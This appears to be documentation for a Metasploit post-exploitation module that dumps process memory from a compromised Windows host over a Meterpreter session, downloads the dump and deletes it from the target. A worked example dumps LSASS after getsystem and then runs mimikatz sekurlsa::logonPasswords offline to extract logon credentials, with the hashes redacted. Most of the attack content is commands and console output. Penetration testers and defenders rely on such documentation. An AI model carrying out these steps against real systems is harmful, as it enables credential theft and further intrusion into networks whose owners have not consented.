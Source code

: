 ## Vulnerable Application

This module dumps the memory for any process on the system and retrieves it for later analysis.
The user must have sufficient permissions to read the memory of that process. Low-privilege users
should be able to read any of their own processes. High-privilege users should be able to read
any unprotected process.

This module only works on a Meterpreter session on Windows.

## Verification Steps

  1. Start `msfconsole`
  1. Get meterpreter session on a Windows host
  1. Do: `use post/windows/gather/memory_dump`
  1. Do: `set SESSION <session id>`
  1. Do: `set PID <process id>` or `set PROCESS_NAME <process name>`
  1. Do: `set DUMP_PATH <path on remote system>`
  1. Do: `set DUMP_TYPE <standard|full>`
  1. Do: `run`
  1. You should be able to see that the module has dumped the process to a file and starts downloading it.
  1. You should be able to see, whether the module succeeds or fails, that the file on the remote system has been deleted.

## Options

### DUMP_PATH

The path that the memory dump will be temporarily stored at. This file is then
downloaded and deleted at the end of the run. This file should be in a writable
location, and should not already exist. If not specified, the dump is written
with a random filename in `%TEMP%`.

### PID

The ID of the process to dump. To find the PID, in your Meterpreter session,
type `ps`. To find a process by name, type `ps | <process name>`.

### PROCESS_NAME

The name of the process(es) to dump. This will dump memory for all processes
with this name.

### DUMP_TYPE

Two options are provided for creating a memory dump:

- Full

This option retrieves the entire memory address space, including all DLLs, EXEs
and memory mapped files. For dumping LSASS for offline analysis, this option
seems to be preferable. However, the file size can be significantly larger than
the Standard option.

- Standard

This option retrieves most data from the process, with the exception of DLLs,
EXEs and memory mapped files. As a result, some analysis tools may have trouble
with automated analysis, however any sensitive information such as passwords
which are stored in memory should be part of this dump. This data could
possibly be retrieved using a tool such as `strings`. The file size should be
significantly smaller than the Full option.

## Scenarios

### Dumping lsass

Retrieving lsass (after getsystem)

```
meterpreter > ps | lsass
Filtering on 'lsass'

Process List
============

 PID  PPID  Name       Arch  Session  User                 Path
 ---  ----  ----       ----  -------  ----                 ----
 700  536   lsass.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\lsass.exe

meterpreter > 
Background session 4? [y/N]  
msf post(windows/gather/memory_dump) > set pid 700
pid => 700
msf post(windows/gather/memory_dump) > run

[*] Running module against DemoPC
[*] Dumping memory for lsass.exe
[*] Downloading minidump (5.31 MiB)
[+] Memory dump stored at /home/user/.msf4/loot/20210505174955_default_192.168.XXX.XXX_windows.process._647943.bin
[*] Deleting minidump from disk
[*] Post module execution completed
```

Then in mimikatz (offline):

```
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::minidump c:\Users\user\desktop\20210505175519_default_192.168.XXX.XXX_windows.process._162777.bin
Switch to MINIDUMP : 'c:\Users\user\desktop\20210505175519_default_192.168.XXX.XXX_windows.process._162777.bin'

mimikatz # sekurlsa::logonPasswords
Opening : 'c:\Users\user\desktop\20210505175519_default_192.168.XXX.XXX_windows.process._162777.bin' file for minidump...

Authentication Id : 0 ; 280858 (00000000:0004491a)
Session           : RemoteInteractive from 2
User Name         : user
Domain            : DemoPC
Logon Server      : DemoPC
Logon Time        : 5/05/2021 3:15:10 PM
SID               : S-1-5-21-920577323-754201681-977916534-1001
        msv :
         [00000003] Primary
         * Username : user
         * Domain   : DemoPC
         * NTLM     : (redacted, but verified)
         * SHA1     : (redacted)
        tspkg :
        wdigest :
         * Username : user
         * Domain   : DemoPC
         * Password : (null)
        kerberos :
         * Username : user
         * Domain   : DemoPC
         * Password : (null)
        ssp :
        credman :
        cloudap :
```
